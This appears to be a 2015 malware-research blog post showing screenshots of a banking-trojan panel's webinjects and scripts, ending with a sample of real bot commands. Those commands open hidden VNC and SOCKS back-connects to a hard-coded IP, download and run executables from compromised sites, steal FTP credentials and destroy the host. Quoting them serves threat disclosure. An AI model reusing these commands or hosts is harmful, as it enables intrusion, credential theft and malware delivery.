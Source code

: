   
Webinjects for the group 'Canada':  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjB4acNrYEHDk15EsOyH18sRklY2Pdnt7IQZVUOfbzSHwexHlV0MZhUJBGDheE2A3X9ea69xIH-eaVBypey6A1EVYIzu6vKT5dHVpH1bK4ky0Pvmz9cGvHbZA3O5UF7oVX-MMhLWZE2nok/s400/2015-11-17_15-40-05.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjB4acNrYEHDk15EsOyH18sRklY2Pdnt7IQZVUOfbzSHwexHlV0MZhUJBGDheE2A3X9ea69xIH-eaVBypey6A1EVYIzu6vKT5dHVpH1bK4ky0Pvmz9cGvHbZA3O5UF7oVX-MMhLWZE2nok/s1600/2015-11-17_15-40-05.png)

  
US:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjOQJdZ22sOiGyeve-IDBXIFK4afmcl2U0DxTor_XKHV4A8wo3-yaPyu_ntNHzef-RkX75Xs3ZBKZ2ExQTD8bRxnGiaY41jl4SLH9tbEVenGKUbILk_vv9WZiTABHF6w8OvmRufkMOV-VI/s400/2015-11-17_15-41-53.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjOQJdZ22sOiGyeve-IDBXIFK4afmcl2U0DxTor_XKHV4A8wo3-yaPyu_ntNHzef-RkX75Xs3ZBKZ2ExQTD8bRxnGiaY41jl4SLH9tbEVenGKUbILk_vv9WZiTABHF6w8OvmRufkMOV-VI/s1600/2015-11-17_15-41-53.png)

  
Edit a webinject:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhHhw28B68xI1oZGbh91icWw32uAhlP9ArOdG2mU7hOOYSwN6to6bT5_bSo8NnM1VYqRc1gOzC2BIaGZtBOiVsPy1ZY0LRg_XBAvRI16mN_-XUaQ7GUrWCN63Hccp8MOf725TYWw26Wdwc/s400/2015-11-17_15-41-06.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhHhw28B68xI1oZGbh91icWw32uAhlP9ArOdG2mU7hOOYSwN6to6bT5_bSo8NnM1VYqRc1gOzC2BIaGZtBOiVsPy1ZY0LRg_XBAvRI16mN_-XUaQ7GUrWCN63Hccp8MOf725TYWw26Wdwc/s1600/2015-11-17_15-41-06.png)

  
Script:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi4rghO8YIN0gVSLw0eRRIwxxx5baj3jH5tQ7M8yKoYpgUhs8gSBSlIV22VBoei9XVlfqZIz8tsiz3RuUn74Ya62TLrcPwLHPjGHePlhJvOcEZ3qz_2Xg4-63vfEXuglgM5goRGlnJ_6Co/s400/2015-11-02_16-39-13.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi4rghO8YIN0gVSLw0eRRIwxxx5baj3jH5tQ7M8yKoYpgUhs8gSBSlIV22VBoei9XVlfqZIz8tsiz3RuUn74Ya62TLrcPwLHPjGHePlhJvOcEZ3qz_2Xg4-63vfEXuglgM5goRGlnJ_6Co/s1600/2015-11-02_16-39-13.png)

  
Script edit:  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjL525mIDDvn556Q9R9EGButIiM_0J-js-V-36h1fGNPPuXJQh_yihbB2i5xyDf30zUsJbLvA_Px5u68dtoav7ATTFb7IOw9IDgpadEfO7aJQxjx3nghVRXeFLTu5Cppj3soYFvz4fBSeM/s400/2015-11-02_16-45-56.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjL525mIDDvn556Q9R9EGButIiM_0J-js-V-36h1fGNPPuXJQh_yihbB2i5xyDf30zUsJbLvA_Px5u68dtoav7ATTFb7IOw9IDgpadEfO7aJQxjx3nghVRXeFLTu5Cppj3soYFvz4fBSeM/s1600/2015-11-02_16-45-56.png)

  
Some scripts sample:  

tokenspy\_update tokenspy-config.json  
hvnc\_start 176.9.174.237 29223  
bot\_bc\_add vnc  
bot\_bc\_add socks 176.9.174.237 37698  
user\_execute http://iguana58.ru/plugins/system/anticopy/ammy.exe  
transfer  
user\_destroy  
user\_execute http://iguana58.ru/plugins/system/anticopy/adobe.exe  
user\_ftpclients\_get  
user\_execute htxp://iguana58.ru/plugins/system/anticopy/adobe.exe  
user\_execute htxp://mareikes.com/wp-includes/pomo/svhost.exe -f  
user\_execute htxp://mareikes.com/wp-includes/pomo/server.exe  
user\_execute htxp://mareikes.com/wp-includes/pomo/ammy.exe  
user\_execute http://tehnoart.co/sr.exe -f  
user\_execute http://3dmaxkursum.net/tmp/sys/config.exe  
user\_execute http://coasttransit.com/wp-content/gallery/gulfport-transit-center/thumbs/htasees.exe
